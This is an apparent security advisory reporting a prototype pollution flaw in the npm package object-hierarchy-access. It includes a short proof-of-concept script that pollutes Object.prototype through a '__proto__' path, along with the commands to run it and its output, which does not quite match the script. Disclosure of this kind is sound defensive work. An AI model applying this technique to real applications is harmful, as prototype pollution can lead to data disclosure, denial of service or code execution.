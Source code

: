 # Description

`object-hierarchy-access` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectHierarchyAccess = require("object-hierarchy-access")
let obj = {}
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
console.log("Before : " + obj.polluted);
objectHierarchyAccess.set(obj, ['__proto__', 'polluted'], 'Yes! Its Polluted');
console.log(obj.polluted);

```
2. Execute the following commands in another terminal:

```
npm i object-hierarchy-access # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
